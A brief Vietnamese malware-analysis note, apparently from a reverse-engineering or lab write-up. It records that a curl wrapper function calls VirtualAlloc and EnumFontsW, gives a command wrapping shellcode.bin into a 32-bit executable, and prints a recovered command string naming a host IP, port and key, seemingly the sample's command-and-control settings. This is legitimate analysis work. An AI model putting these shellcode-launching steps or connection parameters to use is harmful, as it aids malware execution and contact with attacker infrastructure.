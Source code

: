 # Phân tích

curl_easy_cleanup x
curl_easy_perform x
curl_easy_setopt x
curl_easy_init -> có gọi một hàm thực hiện virtualalloc, enumfontsw khá lạ

Phải dùng 32bit
`sclauncher64.exe -f="shellcode.bin" -pe -32 -o="stage4_32.exe"`

```text
eax:"pmseindw -host=192.168.57.119:6000 -key=pJB`-v)t^ZAsP$|r"
```
